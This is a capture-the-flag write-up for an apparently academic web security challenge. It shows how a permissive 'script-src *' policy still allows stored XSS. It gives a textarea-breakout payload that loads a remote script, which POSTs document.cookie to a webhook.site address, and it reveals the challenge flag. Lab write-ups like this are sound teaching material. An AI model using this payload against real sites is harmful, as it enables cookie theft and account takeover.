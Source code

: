 # Challenge `Read my lips: no more scripts` writeup

- Vulnerability: XSS
- Where: In the post creation form's content field
- Impact: It allows the retrieval of a remote user's (in this case, the admin's) cookies

## Finding the vulnerability / Steps to reproduce

1. This challenge is similar to `Go on and censor my posts`, except that, in this website, inline scripts are ignored as a result of the `script-src *` Content Security Policy. However, this policy also means that non-inline scripts can be read from any origin.
2. As such, an attacker can create a similar payload to the last challenge (`</textarea><script type="text/javascript" src="http://web.tecnico.ulisboa.pt/ist195550/exploit.js"></script><textarea>`), this time with a reference to an online JavaScript file with the exact same script content as before (`const xhr = new XMLHttpRequest(); xhr.open("POST", "https://webhook.site/<id>", false); xhr.send(document.cookie);`).
3. Once the script is finally submitted for approval and the admin clicks on it, a request containing the flag (`SSof{Loading_R3m0t3_Scripts_is_allowed_with_this_CSP}`) is then intercepted and can be read by the attacker.